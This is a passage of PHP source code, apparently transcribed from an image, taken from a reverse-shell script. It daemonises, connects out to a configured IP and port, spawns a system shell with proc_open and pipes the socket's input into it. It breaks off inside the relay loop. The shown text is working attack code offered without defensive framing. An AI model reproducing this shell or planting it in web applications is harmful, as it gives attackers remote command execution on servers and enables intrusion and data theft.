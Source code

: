             $daemon = 1;
        } else {
            printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
        }

        chdir("/");

        umask(0);

        // Open reverse connection
        $sock = fsockopen($ip, $port, $errno, $errstr, 30);
        if (!$sock) {
            printit("$errstr ($errno)");
            exit(1);
        }

        $descriptorspec = array(
        0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
        1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
        2 => array("pipe", "w")   // stderr is a pipe that the child will write to
        );

        $process = proc_open($shell, $descriptorspec, $pipes);

        if (!is_resource($process)) {
            printit("ERROR: Can't spawn shell");
            exit(1);
        }

        stream_set_blocking($pipes[0], 0);
        stream_set_blocking($pipes[1], 0);
        stream_set_blocking($pipes[2], 0);
        stream_set_blocking($sock, 0);

        printit("Successfully opened reverse shell to $ip:$port");

        while (1) {
            if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
            }

            if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
            }

            $read_a = array($sock, $pipes[1], $pipes[2]);
            $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

            if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
            }
